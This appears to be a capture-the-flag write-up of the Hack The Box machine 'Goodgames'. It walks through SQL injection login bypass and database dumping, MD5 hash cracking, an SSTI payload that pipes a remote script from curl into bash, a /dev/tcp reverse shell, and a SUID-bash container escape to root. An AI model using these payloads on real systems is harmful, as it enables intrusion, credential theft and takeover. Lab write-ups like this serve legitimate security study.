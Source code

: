 ```yaml
---
title: Goodgames Writeup
published: true
---
```


![](../assets/hackthebox.com/Goodgames/Logo.png)

# [](#header-1)Port Scan
First thing we do is scanning every port from the IP, for a faster scan we use TCP SYN with the parameter `-sS`
```sh
nyeees@parrot$ nmap -p- --open -sS --min-rate 5000 -v -n -Pn 10.10.11.130 -oN totalPorts
```
```sh
PORT   STATE SERVICE
80/tcp open  http
```
We analyze the versions and use a default script from nmap to get detailed info.
```sh
nyeees@parrot$ nmap -sCV -p80 10.10.11.130 -oN PortScanned
```
```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-server-header: 
|   Werkzeug/2.0.2 Python/3.6.7
|_  Werkzeug/2.0.2 Python/3.9.2
| http-title:     Flask Volt Dashboard -  Sign IN  | AppSeed
|_Requested resource was http://internal-administration.goodgames.htb/login
Service Info: Host: goodgames.htb
```

With the detailed scan we can see some domains: 
**goodgames.htb**
**internal-administration.goodgames.htb**
So I add them in the /etc/hosts
```sh
File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ #
   3   │ 127.0.0.1  localhost
   4   │ 127.0.1.1  kikolon-vmwarevirtualplatform
-> 5   │ 10.10.11.130    internal-administration.goodgames.htb   goodgames.htb
   6   │ 
   7   │ ::1        localhost ip6-localhost ip6-loopback
   8   │ ff02::1    ip6-allnodes
   9   │ ff02::2    ip6-allrouters
```


# [](#header-2)Web
> In the web we have a login that may be vulnerable to sql injection


![](../assets/hackthebox.com/Goodgames/LogIn.png)

I try to execute an sqli, but it seems to be sanitized. Let's try it in Burp Suite 

![](../assets/hackthebox.com/Goodgames/firstPost.png)

In the first post i will try to inject sql querys in the password field
And after doing that there's no change in the response that we get from the Burp Suite repeater.
Now let's try with the email...

![](../assets/hackthebox.com/Goodgames/PostEmail.png)

We got it, just with a simple sqli we got a cookie, and if we go the line 99 from the response we can see this:
```js
<h2 class="h4">
	Welcome admin
</h2>
```

Going back to the page we can see we are logged in with the admin session.
But lets try to get more information from the sqli
```sql
email=nyees%40gmail.com' order by 4-- -
  
```
We list the databases:
```sql
email=nyees%40gmail.com' union select 1,2,3,schema_name from information_schema.schemata-- - 
```
And got the database 'main'.Now the tables:
```sql
email=nyees%40gmail.com' union select 1,2,3,table_name from information_schema.tables where table_schema='main'-- -
```
Oh there's a table named users, lets dig into that...
```sql
email=nyees%40gmail.com' union select 1,2,3,column_name from information_schema.columns where table_name='user'-- -
```
Yesssss,here there are all the users their passwords, so we get them:
```sql        
email=nyees%40gmail.com' union select 1,2,3,group_concat(name,password) from user-- -
```
Okay, we got credentials, but there aren't the passwords in plain text, it is a hash and by its length its seems to be using the protocol MD5.
Lets crack the password from the admin
```sh
john credentials.txt --format=Raw-MD5
```
Having the password from the admin lets have a look in the other domain that we included in the /etc/hosts : **internal-administration.goodgames.htb**

![](../assets/hackthebox.com/Goodgames/LogAdmin.png)

So the credentiales are correct!!. In this new panel if we go to settings we can change some info about the admin. And not only that but we can execute a Server-side Template injection (SSTI)

![](../assets/hackthebox.com/Goodgames/testSSRF.png)


With the github [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) Im able to use a template that gives me an RCE

```
self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.16.9:8080/shell.sh|bash').read() 
```
The curl is pointing to a server that i opened in python with the command:

```sh
nyeees@parrot$ sudo python3 -m http.server 8080
```
In this server there is a script that if executed will give me a rever shell:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.9/443 0>&1
```
So i listen in the port  443 with netcat and...
<br><br>
![](../assets/hackthebox.com/Goodgames/ContainerIn.png)

WE ARE IN!!!!
<br><br>
It seems we are root, but when i execute hostname -I shows the ip `172.19.0.2`, this is not the machine's ip, it seeems we are in a container. 


# [](#header-3)Privilege escalation (Container)
The user flag is easy to get, i went to the /home directory and there is a user called augustus, where you can see the user.txt
<br><br>
In this container i cann't see any file that gives me information, and in the /etc/passwd the augustus user does not exists, maybe this user is from the original machine.
<br><br>
If the user is from the machine, then the /home/augustus directory is connected to the machine, so i run the command:

```sh
root@3a453ab39d3d:/# mount -n | grep "augustus"
```

And yes, it tells me that there is a mount with this folder :

```sh
/dev/sda1 on /home/augustus
```

Now i will try to see if there are more opened ports in the machine, sending pings to the gateway, where the machine is located, for making this posible i runned this script in bash inside the container:

```sh
function ctrl_c(){
  echo "Saliendo..."
  exit 1
}


trap ctrl_c INT

for i in {0..66000};do

	timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i 2>/dev/null && echo 'puerto $i abierto'" &
  
done
```
I runned this script and i got that the port 22 is also opened... And i had some credentials from before that i have to try. And trying:

```sh
ssh august@172.19.0.1
```
With the password that i got previously... IM IN!!! , and now in the original machine.
# [](#header-4)Privilege escalation (Root)
For getting the root flag you need a good understanding about how a folder is mounted, because the solution is very fast but different.
<br><br>
If the folder /home/augustus is mounted in the original machine it tells me that if we make a change on the container (where we have root) then it changes as well in the original machine. So first, i copy the bash in the original machine
<br><br>

```sh
augustus@GoodGames:~$ cp /bin/bash .
```
After that I come back to the container and change the owner to root and give suid permissions

```sh
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755  bash
```
Finally I just have to run the parameter `bash -p` in the original machine, and we get a bash with root permissions. :)






